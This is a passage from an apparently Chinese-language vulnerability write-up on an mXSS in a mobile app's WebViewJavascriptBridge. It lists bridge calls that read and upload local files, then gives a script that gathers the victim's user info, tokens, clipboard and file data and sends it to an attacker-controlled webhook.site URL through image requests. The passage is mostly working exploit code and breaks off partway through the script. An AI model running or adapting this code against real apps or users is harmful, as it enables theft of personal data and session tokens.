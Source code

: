         //下载文件/图片，可以是本地路径，返回文件id，高危！！！！！！
        WebViewJavascriptBridge.callHandler("downloadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{url:"/sdcard/Pictures/aa.jpg",isShowProgressTips:1}},function(e){console.log(e)})

        //上传文件/图片，可以是本地路径，高危！！！！！配合上一步的文件id，完成文件上传，上传到网易云中
        WebViewJavascriptBridge.callHandler("uploadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:"godlike://resourceid/9f64aebdfff3ef5abd0f1365b08f0fc7",isShowProgressTips:1,usageType:1}},function(e){console.log(e)})

        //或者直接读取文件
        WebViewJavascriptBridge.callHandler("getLocalImageData", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:"godlike://resourceid/6e37e47d1b0874c42a31e80e654b39a7"}},function(e){console.log(e)})

15. 将上述漏洞利用脚本化，将受害者的敏感信息，文件url，粘贴板数据等回传到攻击者控制的burpsuite collaborator。

        // burpsuite collaborator url
        const api_burp = 'http://webhook.site/09f1dce5-7edb-403d-807b-3fe4a54e9d4c'

        console.log("mxss触发 by 0x5r33!!!!")
        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取敏感信息
        const sendData = () => {
            WebViewJavascriptBridge.init()
            var usrInfo, tokenInfo, clipData, fileData;
            //获取手机客户端用户信息，包括手机号，用户id
            WebViewJavascriptBridge.callHandler("getLogField", 
                {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},
                function(e){
                    if(e.code==200){
                        usrInfo = e.result;
                        console.log("获取用户数据成功！！！")
                    }
                }
            )
            //获取token信息
            WebViewJavascriptBridge.callHandler("getGodlikeInfo", 
                {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},
                function(e){
                    if(e.code==200){
                        tokenInfo = e.result;
                        console.log("获取token成功！！！")
                    }
                    